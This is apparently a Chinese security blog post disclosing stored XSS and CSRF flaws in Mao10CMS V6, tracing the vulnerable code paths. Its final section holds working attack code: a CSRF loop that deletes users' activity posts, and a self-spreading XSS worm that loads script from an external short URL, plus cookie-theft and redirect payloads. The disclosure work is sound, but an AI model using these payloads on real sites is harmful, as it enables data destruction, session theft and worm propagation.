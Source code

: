 ```yaml
---
layout: post
title: "Mao10CMS V6 两处过滤不严可导致XSS、CSRF、XSS Wrom"
---
```


# 0x00 前言 #

虽然手速没有别人快，漏洞也比较简单，还是把过程贴出来慢慢努力吧

* 官网v6.1.6版本，<http://www.mao10.com/?m=post&a=single&id=44>
* 测试环境docker wnameless/mysql-phpmyadmin(apache2，php5，mysql5)

由于该cms第一个注册的用户默认是管理员账户权限较大，其他用户再未特殊的设置下均为普通账户，在测试时需加以注意。（如下说明中admin为管理员账户，larry0x为普通账户）

<!-- more -->

# 0x01 第一处XSS #

在黑盒测试当中，普通用户登陆后在进入个人主界面，在发表动态处未对输入及输出进行过滤，可导致客户端的代码攻击：

![][1]

黑盒逆向追踪源代码分析如下：

右键源代码之后可以发现232~244为form表单进行动态内容的提交

![][2]

在do/activity.php的1~17行有：

![][3]

其中将post的content直接传递进入hmset进行数据库的操作，跟进在mysql.php中的409~439行讲保存数据的数组进行了自定义的序列化之后插入数据库：

![][4]

跟进do/function.php的50~57行，这里只是简单得序列化压缩编码保存进入了数据库：

![][5]

至此我们的恶意输入已经保存在了服务器上。

由于所有的用户动态都会反应在页面坐下脚的“最新动态的面板”当中，让我们继续看看此处的输出是否有过滤。

在全局搜索“最新动态”的div的class名“activityShowList”，可发现该模板页面在theme/default/activity.php当中，再次全局搜索activity.php的调用，发现theme/default/footer.php会对其进行包含，而footer.php在模板页面中均会被包含。

下面定位到theme/default/activity.php的1~39行：

![][6]

其会取出最近5次的用户动态，并在第35行中调用hget方法对动态的内容进行输出。

在mysql.php的366~372行当中也是对其内容反序列化后就返回结果，最终传递到模板当中：

![][7]

所以整个参数的传递过程中从入库到出库都未进行过滤直接输出后即可导致恶意的客户端代码执行。

# 0x02 第二处XSS #

第二处的XSS存在与发布文字的话题处，此处可由用户创建任意的话题，此处也未对恶意输入进行过滤并输出，进而导致客户端代码的可执行性，在查看文章和主页显示最新文章时都可触发：

![][8]

![][9]

首先在发布文章处右键源代码，定位到486~517为创建话题的form表单：

![][10]

随后跟进到do/pubform-topic.php文件中，在1~37当中：

![][11]

由于没有POST id值，直接进入21行的逻辑，虽然在第26,27行对提交的内容有严格的过滤，并在29行对数据进行序列化存储到数据库当中。但注意到在第25行则是直接对POST的话题title插入到zset表当中，而未进行任何过滤：

![][12]

由于最后的输出点在主页的热门文章当中，我们来看看输出情况是如何的，定位到theme/default/index.php中的56~62行：

![][13]

在58行中通过maoo_term_title获取文章话题的title，跟进do/function.php的918~926行：

![][14]

这里直接通过zscore函数从zset表中获取对应的content，最后输出到页面中：

![][15]

# 0x03 危害 #

以下均已最新动态的处的xss为例，当然在热门文章处也是可以利用触发的，原理相同

## XSS ##

最简单的打cookie喽：

![][16]

不过在利用时会有一些限制，在do/function.php的426~497行当中：

![][17]

这里使用token登陆我是没有找到其他的逻辑，所以就受限于485行的验证ip了，若达不到ip的话就只能进行IP伪造（该cms存在该缺陷）去暴力了

其他有趣的玩法比如插入`<script>document.location="http://www.baidu.com";</script>`就可以“恶意跳转”啦，其他的可以自己发挥～

## CSRF ##

在这里附送一个CSRF，在用户主页当中，存在一个删除用户动态的链接：

![][18]

接着让我们定位到do/delete.php的229~238行：

![][19]

在第231行虽然对权限进行了判定，只有管理员可以删除，但是并未对来源进行限制，因此可以对管理员进行CSRF攻击删除所有用户的动态信息，利用代码类似如下：

{% highlight javascript %}
<script type="text/javascript">
    for (var i = 0; i < 1000; i++) {
        if (i == 77 ) {continue; //skip itself}
        m = new Image();
        m.src = "http://localhost:8080/mao10cms-mysql/do/delete.php?type=activity&id=" + i;
    }
</script>
{% endhighlight %}

## XSS Worm ##

由于在最新动态处都会显示最新的5条动态信息，并且是包含在模板页面当中的，也就说任何用户登陆后即可加载我们插入的js，进行恶意操作，这里我以关注对应用户和发布动态（维持Worm状态）为例，js代码如下：

{% highlight javascript %}
var m = new Image();
m.src = document.getElementsByTagName('link')[0].href + "/../../../do/add_guanzhu.php?id=2";
var url = document.getElementsByTagName('link')[0].href + "/../../../do/activity.php";
var post_str = "content=hi%3Cscript%20src%3D%27http%3A%2f%2ft.cn%2fRch1cI9%27%3E%3C%2fscript%3E";
var ajax = null;
if (window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if (window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
ajax.open("POST",url,true);
ajax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
ajax.send(post_str);
{% endhighlight %}

![][20]

[1]: http://ojyzyrhpd.bkt.clouddn.com/20160831/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20160831/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20160831/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20160831/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20160831/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20160831/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20160831/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20160831/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20160831/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20160831/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20160831/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20160831/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20160831/13.png
[14]: http://ojyzyrhpd.bkt.clouddn.com/20160831/14.png
[15]: http://ojyzyrhpd.bkt.clouddn.com/20160831/15.png
[16]: http://ojyzyrhpd.bkt.clouddn.com/20160831/16.png
[17]: http://ojyzyrhpd.bkt.clouddn.com/20160831/17.png
[18]: http://ojyzyrhpd.bkt.clouddn.com/20160831/18.png
[19]: http://ojyzyrhpd.bkt.clouddn.com/20160831/19.png
[20]: http://ojyzyrhpd.bkt.clouddn.com/20160831/20.png
